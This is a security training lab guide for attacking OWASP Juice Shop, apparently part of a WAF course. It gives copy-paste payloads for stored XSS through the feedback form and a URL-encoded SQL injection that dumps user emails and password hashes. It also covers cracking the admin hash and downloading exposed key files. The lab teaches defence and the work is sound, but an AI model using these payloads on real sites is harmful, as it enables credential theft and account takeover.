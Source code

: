 Lab 2 – Hacking the Juice Shop
------------------------------

Objective
~~~~~~~~~

- Demonstrate the vulnerabilities in the Juice Shop web application.

- Demonstrate a cross site scripting (XSS) vulnerability.

- Demonstrate a SQL injection vulnerability.

- Demonstrate a privilege escalation vulnerability.

- Demonstrate an unauthorized file access.

Task – Demonstrate a server side cross site scripting (XSS) vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Visit the About page so you can see that it hasn't been hacked yet by clicking on the hamburger menu in the top left corner of the page:

.. image:: ../images/hamburger_menu.png

and then click on **About Us**.

.. image:: ../images/aboutus_menu.png

You should see a bunch of lorem ipsum text and a slider of customer feedback entries retrieved from the database.

.. image:: ../images/aboutus_page.png

We will insert our cross site scripting hack into the database via the Customer Feedback form. Click on the hamburger menu again and then click on **Customer Feedback**.

.. image:: ../images/customer_feedback.png

In the comment area paste the following:

.. code-block:: none

    <<script>FUD</script>iframe allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/1030254214&auto_play=true>

Then, choose any amount of stars for the rating and answer the math challenge and then click Submit.

.. image:: ../images/xss_cust_feedback_form.png

Now head back over to the About page by clicking on the hamburger menu and then clicking on About. You should hear a jingle about the Juice Shop.

Task – Demonstrate a SQL injection vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Paste the following path in your browser's location bar after the FQDN of the Juice Shop:


.. code-block:: none
   
    /rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The location bar should look something like (don't copy this since your FQDN will be different):

.. code-block:: none

    https://ba3eff45-2f23-49ab-8122-2e3bdc1ed9ad.access.udf.f5.com/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The result should be a list of all the users in the database including their hashed passwords.

.. image:: ../images/juice_shop_users.png


Task - Demonstrate a privilege escalation vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Use a rainbow lookup table to expose the admin user's password by navigating to https://crackstation.net/ and entering the hash


.. image:: ../images/juice_shop_crackstation.png


Task - Demonstrate an unauthorized file access vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Navigate to /encryptionkeys to expose an unwanted directory listing

.. image:: ../images/juice_shop_encryptionkeys.png

Click on the file ``premium.key`` and attempt to download it.

The files in this directory can be downloaded. A good WAF policy should block access to sensitive file types.
